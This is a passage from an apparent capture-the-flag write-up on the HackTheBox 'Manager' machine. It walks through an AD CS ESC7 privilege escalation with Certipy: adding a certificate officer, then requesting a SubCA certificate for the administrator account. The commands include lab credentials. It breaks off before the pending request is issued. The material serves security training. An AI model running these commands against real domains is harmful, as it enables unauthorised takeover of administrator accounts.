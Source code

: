 The steps to exploit this are on the
[Certipy](https://github.com/ly4k/Certipy) README.

First, I’ll need to use the Manage CA permission to give Raven the Manage
Certificates permission:

    
    
    oxdf@hacky$ certipy ca -ca manager-DC01-CA -add-officer raven -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
    Certipy v4.8.2 - by Oliver Lyak (ly4k)
    
    [*] Successfully added officer 'Raven' on 'manager-DC01-CA'
    

Now Raven shows up there where they didn’t before:

    
    
    oxdf@hacky$ certipy find -dc-ip 10.10.11.236 -ns 10.10.11.236 -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -vulnerable -stdout
    ...[snip]...
            ManageCertificates              : MANAGER.HTB\Administrators
                                              MANAGER.HTB\Domain Admins
                                              MANAGER.HTB\Enterprise Admins
                                              MANAGER.HTB\Raven
    ...[snip]...
    

This gets reset periodically, so if I find some step breaks while exploiting,
it’s worth going back to see if that is why.

#### Administrator Certificate

The first step is to request a certificate based on the Subordinate
Certification Authority (SubCA) template provided by ADCS. The SubCA template
serves as a predefined set of configurations and policies governing the
issuance of certificates.

    
    
    oxdf@hacky$ certipy req -ca manager-DC01-CA -target dc01.manager.htb -template SubCA -upn administrator@manager.htb -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
    Certipy v4.8.2 - by Oliver Lyak (ly4k)                             
    
    [*] Requesting certificate via RPC                         
    [-] Got error while trying to request certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
    [*] Request ID is 13
    Would you like to save the private key? (y/N) y
    [*] Saved private key to 13.key
    [-] Failed to request certificate
    

This fails, but it saves the private key involved. Then, using the Manage CA
and Manage Certificates privileges, I’ll use the `ca` subcommand to issue the
request:

    
    